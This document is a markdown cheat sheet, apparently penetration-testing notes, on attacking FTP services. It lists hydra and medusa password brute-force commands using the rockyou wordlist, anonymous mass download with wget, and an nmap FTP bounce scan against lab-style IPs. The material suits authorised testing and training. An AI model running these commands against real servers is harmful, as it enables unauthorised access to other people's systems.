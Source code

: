 ### Bruteforce

```
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ftp://<IP> -u -vV
```

### Downloading file

```
ftp <IP>
PASSIVE
BINARY
get <FILE>
```

### Uploading file

```
ftp <IP>
PASSIVE
BINARY
put <FILE>
```

| **Command**                                               | **Description**                                                         |
| --------------------------------------------------------- | ----------------------------------------------------------------------- |
| `ftp <FQDN/IP>`                                           | Interact with the FTP service on the target.                            |
| `nc -nv <FQDN/IP> 21`                                     | Interact with the FTP service on the target.                            |
| `telnet <FQDN/IP> 21`                                     | Interact with the FTP service on the target.                            |
| `openssl s_client -connect <FQDN/IP>:21 -starttls ftp`    | Interact with the FTP service on the target using encrypted connection. |
| `wget -m --no-passive ftp://anonymous:anonymous@<target>` | Download all available files on the target FTP server.                  |
| `get`                                                     | To download a file                                                      |
| `put`                                                     | To upload a file                                                        |
| `find / -type f -name ftp* 2>/dev/null \| grep scripts`   | Nmap FTP Scripts                                                        |

### Attacking FTP

| **Command**                                                                  | **Description**                                              |
| ---------------------------------------------------------------------------- | ------------------------------------------------------------ |
| `ftp 192.168.2.142`                                                          | Connecting to the FTP server using the `ftp` client.         |
| `nc -v 192.168.2.142 21`                                                     | Connecting to the FTP server using `netcat`.                 |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142`     | Brute-forcing the FTP service.                               |
| `medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp` | Brute Forcing with Medusa                                    |
| `nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2`         | The Nmap -b flag can be used to perform an FTP bounce attack |

---